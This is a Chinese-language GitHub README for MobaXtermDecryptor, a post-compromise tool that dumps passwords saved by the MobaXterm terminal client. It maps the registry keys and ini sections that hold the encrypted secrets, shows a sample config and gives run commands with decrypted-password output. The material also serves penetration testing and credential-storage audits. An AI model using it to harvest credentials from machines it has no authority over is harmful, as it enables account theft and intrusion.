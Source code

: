 ## MobaXtermDecryptor

[![Author](https://img.shields.io/badge/author-h0ny-red.svg "Author")](https://github.com/h0ny "Author")
[![Visitors](https://visitor-badge.laobi.icu/badge?page_id=h0ny.MobaXtermDecryptor "Visitors")](https://github.com/h0ny/MobaXtermDecryptor "Visitors")
[![Stars](https://img.shields.io/github/stars/h0ny/MobaXtermDecryptor.svg?style=flat "Stars")](https://github.com/h0ny/MobaXtermDecryptor "Stars")
![GitHub Downloads (all assets, all releases)](https://img.shields.io/github/downloads/h0ny/MobaXtermDecryptor/total?color=orange)
[![GitHub Release](https://img.shields.io/github/v/release/h0ny/MobaXtermDecryptor)](https://github.com/h0ny/MobaXtermDecryptor/releases)
![GitHub License](https://img.shields.io/github/license/h0ny/MobaXtermDecryptor)

### 介绍

一个简单的 MobaXterm 密码转储工具。

---

用户凭据存储的位置：

| Registry Path                                  | Registry Entry         | Portable MobaXterm.ini Section | Description                         |
| ---------------------------------------------- | ---------------------- | ------------------------------ | ----------------------------------- |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm   | SessionP               | [Misc]                         | Entropy used in DPAPI               |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\M | [UserName@MachineName] | [Sesspass]                     | Base64-encoded Master Password      |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\P | [All Registry Entries] | [Passwords]                    | Passwords - Encrypted credentials   |
| HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\C | [All Registry Entries] | [Credentials]                  | Credentials - Encrypted credentials |

部分 MobaXterm.ini 内容示例：

```ini
[Misc]
PasswordsInRegistry=0
SessionP=656078197542
MPSetDate=4/14/2024
MPSetAccount=Administrator
MPSetComputer=WIN-KC7O8UA7U4Q

[Credentials]
cloud-user=root:hDkUY2nK

[Passwords]
mobauser@mobaserver=hnp+7YZCxO75h1e/w1tST2IvKHtWIIIRuKQ=

[Sesspass]
Administrator@WIN-KC7O8UA7U4Q=AQAAALK+kjnRao9Fp9ljPL2GpQIAAAAAAgAAAAAAEGYAAAABAAAgAAAA8eEio3ElndSDHvad+IUTeuDcxECIp6BRTcnl4WUO0hQAAAAADoAAAAACAAAgAAAApYkVRexqVUB0W2aggCLirnpVr7XXvG4zkThBB5Cc34RgAAAAtuRBDfbxi9Ws5Fp7D2DAV12a/7+ZAC4Y8s6LryB0AmG6eByh2+ScguKs0nKsXupoHtQrq1esdbOF+KA5ObYKv7e9Cmb3X86HX90sRyaqRoi0faQ4BwL2EVFP3CAqNfVCQAAAAOIiPQ/546VgLw5vn2ptgn/ELHzOiGWwA7v9ov3Z0/POZrPXW+1jtb2PeGCkWyH82PDjx5c0UyO4j7xw/UzrDYE=
```

### 使用方法

对于 MobaXterm 安装版本直接运行即可：

```
PS C:\> .\MobaXtermDecryptor.exe
[+] MobaXterm Installer Edition
[*] ----------------- Passwords -----------------
[*] Connection Name: mobauser@mobaserver
[*] Password:        324326moba126340pass359591

[*] Connection Name: ssh22:root@192.168.10.10
[*] Password:        admin123

[*] ----------------- Credentials -----------------
[*] Name:     cloud-user
[*] Username: ubuntu
[*] Password: 123456
```

对于 MobaXterm 便携版本需要指定 MobaXterm.ini 文件：

```
PS C:\> .\MobaXtermDecryptor.exe C:\Users\Administrator\Desktop\MobaXterm.ini
[+] MobaXterm Portable Edition
[*] ----------------- Passwords -----------------
[*] Connection Name: mobauser@mobaserver
[*] Password:        324326moba126340pass359591

[*] Connection Name: ssh22:root@192.168.10.10
[*] Password:        admin123

[*] ----------------- Credentials -----------------
[*] Name:     cloud-user
[*] Username: ubuntu
[*] Password: 123456
```

> 注意：对于便携版也需要在目标机器上运行，因为有进行 DPAPI 解密操作。

### 参考项目 👍

- https://github.com/qwqdanchun/Pillager
- https://github.com/XMCyber/XMCredentialsDecryptor
- https://github.com/HyperSine/how-does-MobaXterm-encrypt-password
